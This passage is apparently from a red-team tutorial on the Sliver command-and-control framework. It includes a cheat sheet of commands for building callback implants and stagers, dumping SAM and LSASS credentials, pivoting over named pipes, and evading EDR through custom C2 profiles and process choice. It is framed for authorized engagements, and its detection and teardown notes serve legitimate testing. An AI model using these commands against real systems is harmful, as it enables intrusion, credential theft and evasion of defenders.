**Beacon tasks hang.** Beacons only act on check-in. If `--seconds 60 --jitter 30`, a task may take up to 90s to start. For faster iteration during testing, generate a short-interval beacon or `interactive` to a session.

**execute-assembly no output.** Long-running assemblies hit the default 60s timeout — raise with `-t 240`. If the assembly is x86 but the implant is amd64, it fails silently; match architectures. In-process (`-i`) crashes can kill the implant — drop `-i` for stability.


If a session dies and you lose the implant, the server keeps the session record but the channel is gone. Regenerate/deliver a new implant; the old session ID will not recover.


**Summary**

- Top buckets: multiplayer/listener mismatch, beacon timing, assembly arch/timeout, privilege.
- `jobs` + matching protocol is the first check for "no callback."

---

## Common Mistakes

- **No listener before delivery.** Implant runs, nothing callbacks. Fix: start the matching listener first; verify with `jobs`.
- **Killing the server with Ctrl+C in single-process mode.** Loses all sessions/beacons. Fix: use the split server/client; only Ctrl+C the client.
- **Forgetting `multiplayer`.** Clients can't connect. Fix: `multiplayer` on the server, then `new-operator`.
- **Session vs beacon confusion.** Running interactive commands on a beacon and expecting instant output. Fix: `interactive` to a session for real-time work.
- **Running `hashdump`/`getsystem` without SYSTEM/admin.** Fails. Fix: escalate first.
- **Default `http-c2.json` profile.** Fingerprintable. Fix: customize URLs, filenames, headers per engagement.
- **Default `notepad.exe` sacrificial process.** EDR signal. Fix: `--process <plausible exe>`.
- **Unescaped Windows paths in `upload`.** Fails. Fix: `C:\\Users\\...` or forward slashes.
- **Not pinning a release.** Behavior changes mid-engagement. Fix: install a tagged version.

**Summary**

- Top traps: no matching listener, killing the server, skipping `multiplayer`, session/beacon mix-ups.
- Always escalate before `hashdump`/`getsystem`; customize C2 profiles and sacrificial processes.

---

## Best Practices

### Setup

- Pin a release tag for reproducible engagements.
- Run the server on infrastructure you control (a VPS), not on a target.
- Use multiplayer + operator configs for team engagements.
- Install the armory extensions you need up front (`armory install seatbelt rubeus sharphound-4 ...`).

### Operations

- Prefer beacons for dwell; `interactive` to a session only for real-time work, then drop back.
- Customize `http-c2.json` (URLs, filenames, headers) to blend with target traffic.
- Vary beacon interval/jitter; avoid fixed tight cadences.
- Change `execute-assembly --process` from the default `notepad.exe`.
- Match assembly architecture to the implant arch.
- Operate credential dumping from SYSTEM; prefer BOFs (`nanodump`) over `procdump` for footprint.

### Teardown & hygiene

```bash
# Kill a session/beacon.
sliver (http-session) > kill

# Stop listeners/jobs.
sliver > jobs
sliver > kill <job-id>

# Remove persistence artifacts you created (scheduled tasks, run keys).
# Document every artifact in the engagement report for clean removal.
```

`kill` terminates the implant. `kill <job-id>` stops a listener. Document every persistence artifact for removal and reporting.

[Screenshot: jobs and kill teardown]

**Summary**

- Pin versions; server on a VPS; multiplayer for teams; armory up front.
- Beacons for stealth, sessions for interactive; customize C2 profiles and sacrificial processes.
- Teardown: `kill` implants and jobs; document persistence for reporting.

---

## Conclusion

Sliver's split server/client design, Go cross-compilation, and armory of one-command .NET extensions make it a practical C2 for red team operations from initial foothold through domain compromise. Beacons give you stealthy low-churn dwell; sessions give you interactive control; `execute-assembly` and BOFs run your .NET tradecraft in-memory; named-pipe pivots chain implants through restricted segments; and built-in credential dumping covers the post-exploitation path to Domain Admin. The cost is OPSEC: default C2 profiles, sacrificial processes, and LSASS access are all fingerprintable. The disciplined operator customizes the HTTP(S) profile, varies beacon timing, rotates stage-listener URLs, changes sacrificial processes, and tears down implants, listeners, and persistence artifacts the moment they stop earning their keep. Used that way, Sliver is a clean, capable open-source C2 for authorized red team engagements.

---

## Cheat Sheet

### Server / client

```bash
sliver-server                            # start server (first run unpacks assets)
[server] sliver > multiplayer            # enable multi-operator
[server] sliver > new-operator -n <name> -l <server-ip>   # mint operator cfg
./sliver-client import <file>.cfg        # import operator config
./sliver-client                          # connect to server
```

### Armory

```bash
sliver > armory                          # list extensions
sliver > armory search <regex>          # search
sliver > armory install <name>          # install one
sliver > armory install all             # install all
```

### Listeners

```bash
sliver > mtls  --lhost <ip> --lport 8888          # mTLS
sliver > http  --lhost <ip> --lport 8088          # HTTP
sliver > https --lhost <ip> --lport 443 --domain <domain>  # HTTPS
sliver > dns   --lhost <ip> --domains <domain>           # DNS
sliver > wg    --lhost <ip> --lport 51820          # WireGuard
sliver > jobs                                 # list listeners
sliver > kill <job-id>                          # stop a listener
```

### Implants

```bash
sliver > generate --mtls <ip>:8888 --os windows --arch amd64 -N <name>          # session
sliver > generate beacon --http <ip>:8088 --seconds 60 --jitter 30 -N <name>    # beacon
sliver > profiles new --http <ip>:8088 --format shellcode <profile>             # profile
sliver > profiles generate --name <profile> -N <out>                            # build from profile
sliver > stage-listener --url http://<ip>:8443 --profile <profile>                # stage server
sliver > generate stager --http <ip>:8443 --arch amd64 --os windows -o stager.bin # stager
sliver > implants                              # list builds
sliver > regenerate --name <name>                # rebuild an implant
```

### Sessions / beacons

```bash
sliver > sessions                          # list sessions
sliver > beacons                          # list beacons
sliver > use <id>                        # switch to a session/beacon
sliver (http-beacon) > interactive         # beacon → session
sliver > kill                            # terminate active session/beacon
```

### Post-exploitation

```bash
sliver > info / whoami / getuid / pwd / ls / ps -e <name>
sliver > execute -o <bin> <args>              # run native binary, capture output
sliver > shell                           # interactive shell (session)
sliver > upload <local> <remote>           # upload a file
sliver > download <remote> [-r] [-X]        # download file/dir/loot
sliver > execute-assembly <path> <args> [-t 240] [-i -E -M]   # .NET in-memory
sliver > getsystem                       # SYSTEM (admin + session)
sliver > hashdump                        # SAM hashes (SYSTEM)
sliver > procdump --pid <pid> --save <path>    # dump a process
```

### Pivoting

```bash
sliver (session) > pivots named-pipe --bind <name>     # start pipe pivot listener
sliver > generate --named-pipe <ip>/pipe/<name> -N <out>   # build pipe implant
```

### Teardown order

`kill <session/beacon>` → `kill <job-id>` (listeners) → remove persistence artifacts → document for reporting.

---

## FAQ

### What is Sliver C2?
Sliver is an open-source command-and-control framework by BishopFox, written in Go, with a split server/client architecture, cross-platform implants, and a built-in armory of .NET extensions.

### What is the difference between a session and a beacon in Sliver?
A session is a real-time, interactive connection (the implant holds the channel open). A beacon is asynchronous — it checks in on an interval, pulls queued tasks, posts results, and sleeps. Use sessions for interactive work; beacons for stealth and low-bandwidth dwell.

### How do I install Sliver?
Use the one-liner (`curl https://sliver.sh/install|sudo bash`) to build from source, or download prebuilt `sliver-server` and `sliver-client` binaries from a pinned GitHub release tag and run them directly.

### What is Sliver multiplayer mode?
Multiplayer mode lets multiple operators connect to one server. Enable it on the server with `multiplayer`, mint per-operator configs with `new-operator -n <name> -l <server-ip>`, and import each `.cfg` into a client.

### Which C2 protocols does Sliver support?
mTLS (TCP), HTTP, HTTPS, DNS, and WireGuard listeners, plus named-pipe pivots on Windows and staged listeners for size-constrained delivery.

### How do I run .NET tools in Sliver?
Use `execute-assembly <path> <args>` to load a .NET assembly from your machine and run it in-memory on the target via a sacrificial process. Installed armory aliases (`seatbelt`, `rubeus`, etc.) are shorthand with built-in AMSI/ETW bypass.

### How do I dump credentials with Sliver?
From a SYSTEM session, `hashdump` reads the local SAM for NTLM hashes. For LSASS, `ps -e lsass` to find the PID, `procdump --pid <pid> --save <path>` to dump, then parse offline with `pypykatz lsa minidump`. Prefer the `nanodump` BOF for a lighter footprint.

### How do I pivot with Sliver?
On Windows, start a named-pipe pivot listener on an established session (`pivots named-pipe --bind <name>`), generate an implant that connects to that pipe (`generate --named-pipe`), and run it on the next host. The first host relays the second implant's traffic to your server. For Linux pivots, pair Sliver with a Layer 3 tunnel tool like [Ligolo-ng](/docs/tools/ligolo-ng/).

### Why is my Sliver implant not calling back?
Most often there is no listener matching the implant's protocol, or the implant points at the wrong host/port. Verify with `jobs` that a listener for the implant's C2 protocol runs on the host/port the implant was compiled for, and that the target can reach it.

### Is Sliver detectable?
Yes. Key signals: default HTTP(S) C2 profile URLs/filenames, a `notepad.exe` sacrificial process loading the .NET CLR, LSASS access during credential dumping, and unsigned Go implant binaries. Customize `http-c2.json`, change `--process`, prefer BOFs, and expect EDR alerts on LSASS access.

### How do I customize Sliver's HTTP C2 traffic?
Edit `~/.sliver/configs/http-c2.json` to change URL paths, filenames, and request/response headers so the C2 traffic mimics the target's normal web patterns. Restart the HTTP(S) listener after editing.

---

## References

- Sliver project and releases: <https://github.com/BishopFox/sliver>
- Sliver wiki: <https://github.com/BishopFox/sliver/wiki>
- MITRE ATT&CK T1071 — Application Layer Protocol: <https://attack.mitre.org/techniques/T1071/>
- MITRE ATT&CK T1059 — Command and Scripting Interpreter: <https://attack.mitre.org/techniques/T1059/>
- Donut shellcode generator: <https://github.com/TheWover/donut>
- pypykatz: <https://github.com/skelsec/pypykatz>
- See also: [Ligolo-ng guide](/docs/tools/ligolo-ng) for Layer 3 tunneling and pivoting

> *Internal: see [Tools index](/docs/tools/) for more offensive tooling guides, and the [red team section](/docs/redteam/) for related tradecraft.*
